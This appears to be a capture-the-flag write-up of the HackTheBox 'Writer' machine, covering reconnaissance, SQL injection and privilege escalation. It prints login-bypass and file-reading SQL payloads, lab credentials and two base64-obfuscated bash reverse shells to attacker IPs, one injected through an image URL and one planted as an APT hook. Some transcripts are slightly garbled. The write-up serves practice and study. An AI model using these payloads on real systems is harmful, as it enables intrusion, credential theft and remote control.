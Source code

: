 # Enumration

#### Nmap Scan

```text
┌──(kali㉿kali)-[~/Documents/Writer]
└─$ nmap -p 22,80,139,445 -A 10.10.11.101
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-11 16:30 IST
Nmap scan report for 10.10.11.101
Host is up (0.19s latency).

PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 98:20:b9:d0:52:1f:4e:10:3a:4a:93:7e:50:bc:b8:7d (RSA)
|   256 10:04:79:7a:29:74:db:28:f9:ff:af:68:df:f1:3f:34 (ECDSA)
|_  256 77:c4:86:9a:9f:33:4f:da:71:20:2c:e1:51:10:7e:8d (ED25519)
80/tcp  open  http        Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Story Bank | Writer.HTB
139/tcp open  netbios-ssn Samba smbd 4.6.2
445/tcp open  netbios-ssn Samba smbd 4.6.2
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
<SNIP>   
```


#### Dir Fuzzing (FFUF SCAN)


```text
FFUF SCAN

static                  [Status: 301, Size: 309, Words: 20, Lines: 10]
logout                  [Status: 302, Size: 208, Words: 21, Lines: 4]
dashboard               [Status: 302, Size: 208, Words: 21, Lines: 4]
administrative          [Status: 200, Size: 1443, Words: 185, Lines: 35]
```

***

#### LOGIN PAGE

##### SQL-INJECTION

##### ❄️ Bypass Login-Page
```text
admin' or '1'='1`
```


##### ⚡ Enumrating Files 


|Enumrating |Payload | Result|
|--------------------|---------|----------------|
|DataBase version | `' UNION ALL SELECT NULL,@@version,NULL,NULL,NULL,NULL-- -` | 0.3.29-MariaDB-0ubuntu0.20.04.1 |
| DataBase Name | `' UNION ALL SELECT NULL,database(),NULL,NULL,NULL,NULL-- -` | Writer |
| Database User | `' UNION ALL SELECT NULL,user(),NULL,NULL,NULL,NULL-- -` | admin@localhost |


---

# 🔓Foothold

#### Reading some Files
Payload :
```text
' UNION ALL SELECT NULL,LOAD_FILE("/etc/apache2/sites-available/000-default.conf"),NULL,NULL,NULL,NULL-- -
```

file :

```text
&lt;VirtualHost *:80&gt;
        ServerName writer.htb
        ServerAdmin admin@writer.htb
        WSGIScriptAlias / /var/www/writer.htb/writer.wsgi

<SNIP>

# Listen 8080
#&lt;VirtualHost 127.0.0.1:8080&gt;
#	ServerName dev.writer.htb
#	ServerAdmin admin@writer.htb
#
        # Collect static for the writer2_project/writer_web/templates
#	Alias /static /var/www/writer2_project/static
<SNIP>
```

-  ##### Reading `writer.wsgi` file
\
**writer.wsgi** 
```python
<SNIP>
# Import the __init__.py from the app folder
from writer import app as application
application.secret_key = os.environ.get(&#34;SECRET_KEY&#34;, &#34;&#34;)
```

\
** Reading `__init__.py`**

Payload :
```text
' UNION ALL SELECT NULL,LOAD_FILE("/var/www/writer.htb/writer/__init__.py"),NULL,NULL,NULL,NULL-- -
```
\
Potential Code from **`__init__.py`**

```python
if request.form.get(image_url):
	image_url = request.form.get(image_url)
    if '.jpg' in image_url:
    	try:
			local_filename, headers = urllib.request.urlretrieve(image_url)
			os.system('mv {} {}.jpg'.format(local_filename, local_filename))
```

> We can exploit the `os.system` by passing localfile name under `image_url` in our Request while uploading the Image with appropriate name to get a `reverse shell`

```text
file:///var/www/writer.htb/writer/static/img/ftest2.jpg;`echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC43NC85MDAxIDA+JjEK | base64 -d | bash`;#
```
Passing it under `image_url` in burp after uploading the image

---

# User

Reading `settings.py` under `writer2_project` Directory
pointed to `/etc/mysql/my.cnf`

```text
database = dev
user = djangouser
password = DjangoSuperPassword
```

##### Getting Hashed Password 
```shell
ww-data@writer:/var/www/writer2_project$ mysql -u djangouser -h 127.0.0.1 -p dev
<r2_project$ mysql -u djangouser -h 127.0.0.1 -p dev
Enter password: DjangoSuperPassword
select * from auth_user;
exit          
id      password        last_login      is_superuser    username        first_name      last_name       email   is_staff        is_active       date_joined
1       pbkdf2_sha256$260000$wJO3ztk0fOlcbssnS1wJPD$bbTyCB8dYWMGYlz4dSArozTY7wcZCS7DV6l5dpuXM4A=        NULL    1       kyle                    kyle@writer.htb 1       1       2021-05-19 12:41:37.168368
```

After cracking with `john`

- **kyle:marcoantonio**

And We can `ssh` into machine using user `kyle`

---
# User 2

User Kyle belongs to group `filter`  On searching files available for group `filter` Found `/etc/postfix/disclaimer`

Moreover Port `25` is Listing which is `SMPT` 

Reference : [Viperone | Linux postfish](https://viperone.gitbook.io/pentest-everything/all-writeups/pg-practice/linux/postfish)

Got a reverse shell as john and reading it's `id_rsa` file to use ssh.

---

# Privilage Escalation
Logged in as `JOHN` using `SSH`

```shell
kyle@writer:~$ id
uid=1000(kyle) gid=1000(kyle) groups=1000(kyle),997(filter),1002(smbgroup)
john@writer:~/.otherplyeronWriter$ find / -group management 2>/dev/null
/etc/apt/apt.conf.d
```

Creating **nano 1000-pwned** to get Rev-Shell when it get executed
```text
APT::Update::Pre-Invoke {"echo L2Jpbi9zaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC44Mi85MDAyIDA+JjEK | base64 -d | bash"; };
```

